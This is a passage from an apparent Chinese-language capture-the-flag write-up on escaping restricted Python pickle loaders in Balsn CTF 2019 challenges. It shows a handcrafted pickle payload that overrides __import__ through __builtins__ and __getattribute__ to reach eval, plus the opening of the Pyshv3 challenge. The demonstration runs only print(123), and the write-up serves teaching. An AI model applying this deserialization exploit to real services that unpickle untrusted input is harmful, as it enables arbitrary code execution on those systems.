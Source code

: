 

接着我们可以通过操作码c来实现一下操作

```python
return getattr(__import__(module), name)
```

如果能令`__import__(module)`的返回值为`__builtins__`时,就可以取出`__builtins__`里的值



结合[魔术方法]( https://pyzh.readthedocs.io/en/latest/python-magic-methods-guide.html#id1 )`__getattribute__`便可以实现

于是构造

```python
bis=structs.__builtins__
structs.__setattr__('structs',bis)#name只能为structs
bis['__import__']=structs.__getattribute__
getattr(__import__("structs"),"get")("eval")("print(123)")
```



对应的pickle代码

```
cstructs
__builtins__
p100
0cstructs
__setattr__
(S'structs'
g100
tRg100
S'__import__'
cstructs
__getattribute__
scstructs
get
(S"eval"
tR(S'print(123)'
tR.
```







### BalsnCTF 2019 Pyshv3



structs.py

```python
class User(object):
    def __init__(self, name, group):
        self.name = name
        self.group = group
        self.isadmin = 0
        self.prompt = ''
```
